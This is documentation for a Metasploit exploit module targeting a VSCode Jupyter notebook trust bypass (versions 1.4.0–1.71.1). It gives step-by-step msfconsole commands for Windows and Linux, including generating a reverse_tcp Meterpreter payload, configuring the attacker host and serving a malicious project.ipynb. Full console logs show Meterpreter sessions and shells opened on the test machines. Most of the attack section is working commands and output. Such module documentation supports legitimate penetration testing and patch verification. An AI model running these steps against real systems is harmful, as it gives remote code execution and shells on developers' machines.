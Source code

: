 ## Vulnerable Application

VSCode when opening an Jupyter notebook (.ipynb) file bypasses the trust model.
On versions v1.4.0 - v1.71.1, its possible for the Jupyter notebook to embed
HTML and javascript, which can then open new terminal windows within VSCode.
Each of these new windows can then execute arbitrary code at startup.

During testing, the first open of the Jupyter notebook resulted in pop-ups
displaying errors of unable to find the payload exe file. The second attempt
at opening the Jupyter notebook would result in successful execution.

Successfully tested against VSCode 1.70.2 on Windows 10 and Ubuntu 22.04.

### Install

From https://code.visualstudio.com/updates/v1_70

https://update.code.visualstudio.com/1.70.2/win32-x64-user/stable

https://update.code.visualstudio.com/1.70.2/linux-deb-x64/stable


## Verification Steps

### Windows
1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set lhost [ip]`
1. Do: `run`
1. In VSCode, open the URL (File -> Open -> Paste/type the URL)
1. After the pop-up errors, open the file again.
1. You should get a shell.

### Linux
1. Install the application
1. Start msfconsole
1. Do: `use linux/x64/meterpreter/reverse_tcp`
1. Do: `set lhost [ip]` and `set lport [port]`
1. Do: `generate -o shell.sh -f elf`
1. Copy the payload `shell.sh` to `/tmp/` on the target and run `chmod +x /tmp/shell.sh`
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set target 1 `
1. Do: `set lhost [ip]` and `set lport [port]` - be sure to set these to the same values as in the previous step
1. Do: `set FETCH_WRITABLE_DIR /tmp/`
1. Do: `set PAYLOAD_FILENAME shell.sh`
1. Do: `run`
1. Copy the ipynb, and payload file to the target machine.
1. In VSCode, open the file (File -> Open -> project.ipynb)
1. After the pop-up errors, open the file again.
1. You should get a shell.

## Options

## Scenarios

### VSCode 1.70.2 on Windows 10

```
resource (ipynb)> use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (ipynb)> set fetch_srvport 9090
fetch_srvport => 9090
resource (ipynb)> rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.10.147:4444 
[*] Starting up web service...
[*] Using URL: http://192.168.10.147:8080/project.ipynb
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100


[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Meterpreter session 1 opened (192.168.10.147:4444 -> 192.168.10.100:56964) at 2024-03-21 12:38:13 +0000
[*] Meterpreter session 2 opened (192.168.10.147:4444 -> 192.168.10.100:56967) at 2024-03-21 12:38:14 +0000
^C[-] Exploit failed [user-interrupt]: Interrupt 
[*] Server stopped.
[-] rexploit: Interrupted
msf exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > shell
Process 9632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4170]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h00die>code --version
code --version
1.70.2
e4503b30fc78200f846c62cf8091b76ff5547662
x64

C:\Users\h00die>
```

### VSCode 1.70.2 on Linux

```
msf exploit(multi/misc/vscode_ipynb_remote_dev_exec) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Starting up web service...
[*] Using URL: http://172.16.199.1:8090/project.ipynb
[*] Sent project.ipynb to 172.16.199.131
[*] Sending stage (3045380 bytes) to 172.16.199.131
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.131:60298) at 2024-05-13 09:56:36 -0700

^C[-] Exploit failed [user-interrupt]: Interrupt
[*] Server stopped.
[-] run: Interrupted
msf exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         meterpreter x64/linux  msfuser @ 172.16.199.131  172.16.199.1:4444 -> 172.16.199.131:60298 (172.16.199

msf exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer     : 172.16.199.131
OS           : Ubuntu 22.04 (Linux 6.2.0-35-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
